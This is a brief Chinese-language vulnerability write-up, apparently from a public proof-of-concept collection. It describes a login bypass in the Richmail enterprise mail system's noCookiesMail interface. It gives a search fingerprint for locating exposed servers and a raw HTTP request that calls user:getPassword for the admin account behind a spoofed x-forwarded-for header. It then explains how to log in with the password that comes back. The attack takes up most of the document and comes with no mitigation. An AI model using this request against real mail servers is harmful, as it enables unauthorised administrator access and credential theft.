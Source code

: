 # Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

Richmail 企业邮箱

## 网络测绘

```
"Richmail 企业邮箱"
```

## 漏洞复现

登陆页面

![image-20231115104548787](images/image-20231115104548787.png)

poc

```
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![image-20231115104603790](images/image-20231115104603790.png)

替换请求中的password字段即可登陆。